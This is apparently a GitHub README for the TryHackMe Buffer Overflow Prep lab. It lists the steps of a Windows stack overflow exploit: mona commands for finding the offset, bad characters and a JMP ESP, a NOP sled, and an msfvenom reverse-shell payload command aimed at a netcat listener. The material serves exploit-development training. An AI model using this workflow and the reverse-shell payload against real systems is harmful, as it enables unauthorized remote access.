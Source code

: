 # How to use it

1 - Mona Configuration
\
`!mona config -set workingfolder c:\mona\%p` (Configure mona)

2 - Fuzzer payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/fuzzing.py

3 - Crash Replication & Controlling EIP
\
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` (Change the -l value to the value that crashed the server)
\
Then use Exploit payload:
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/exploit.py

4 - Search Offset
\
`!mona findmsp -distance 600` (Change the -l value to the value that crashed the server to find the EIP)
\
Then, update the exploit and set the offset variable. to the previews value and set retn to "BBBB"

5 - Finding bad characters
\
`!mona bytearray -b "\x00"`
\
then use badcharacter payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/badcharacters.py
\
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>` (Address EIP)
\
and try to find the badcharacters

********************

6 - Find a Jump Point
\
METHOD 1
\
Use dump on ESP
\
or
\
METHOD 2
\
`!mona jmp -r esp -cpb "\x00"`
\
Find a jump point (Search de addres to set on the exploit in the part of "retn")
********************

7 - Prepend NOPs
\
`padding = "\x90" * 16`

8 - Create Shell
\
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0IPHERE LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

9 - Netcat listener

10 - exploit!
